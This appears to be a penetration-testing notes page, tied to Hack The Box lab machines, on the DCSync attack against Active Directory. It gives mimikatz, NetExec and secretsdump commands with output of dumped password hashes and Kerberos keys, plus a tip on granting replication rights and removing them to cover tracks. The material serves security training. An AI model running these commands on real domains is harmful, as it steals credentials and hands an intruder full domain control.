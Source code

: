 ```yaml
---
description: >-
  An one-liner late-phase attack aiming on full domain compromise. Can be
  perfomed after owning an domain account which has DCSync rights.
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## Concept

{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}

<div align="left">

<figure><img src="../../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption></figcaption></figure>

</div>

DCSync is a technique for stealing the Active Directory password database (`ntds.dit`) by using the built-in **Directory Replication Service Remote** protocol, which is used by Domain Controllers (DCs) to replicate domain data. This allows an attacker to **mimic a DC and retrieve users' NTLM password hashes**. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

> _Domain/Enterprise Admins and default Domain Administrators have these rights by default._

<figure><img src="../../../.gitbook/assets/dc_sync_rights.png" alt=""><figcaption><p>Firure 1: DCSync rights (image taken from the article linked below).</p></figcaption></figure>

## Tools

{% hint style="info" %}
If we have `WriteDacl`rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks. An example of this can be seen in the [privilege escalation part of the Forest box](../../../boxes/easy/forest.md#privilege-escalation). In the examples below, we assume that the user `hacker`has DCSync rights.
{% endhint %}

### Windows

The DCSync attack can be performed with [`mimikatz`](https://github.com/ParrotSec/mimikatz), but we must target a specific user and it must be ran in the context of the user who has DCSync privileges. The latter can be achieved with [Runas](https://github.com/antonioCoco/RunasCs):

```sh
# start a powershell session in the context of hacker
>runas /netonly /user:HTB\hacker powershell
Enter the password for HTB\hacker:
Attempting to start powershell as user "HTB\hacker" ...
```

Now we can perform the attack from the spawned PowerShell:

```powershell
> .\mimikatz.exe
 
mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
[DC] 'HTB.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.HTB.LOCAL' will be the DC server
[DC] 'HTB\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
 
Object RDN           : Administrator
 
** SAM ACCOUNT **
 
SAM Username         : administrator
User Principal Name  : administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500
 
Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
 
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
 
<SNIP>
```

### Linux

We can use [NetExec](https://github.com/Pennyw0rth/NetExec) to dump the whole `ntds.dit` database or the hash of a specified user:

{% hint style="info" %}
NXC uses [secretsdump's methods](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) to dump `ntds.dit`.
{% endhint %}

```bash
# dumping the administrator hash
$ nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\hacker:h@ck3r!
SMB         10.10.10.161    445    FOREST           [-] Account not found in the BloodHound database.
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | cut -d ':' -f1
```

Impacket's [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can be also used directly.&#x20;

```bash
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../boxes/easy/forest.md" %}
[forest.md](../../../boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../boxes/easy/sauna.md" %}
[sauna.md](../../../boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}
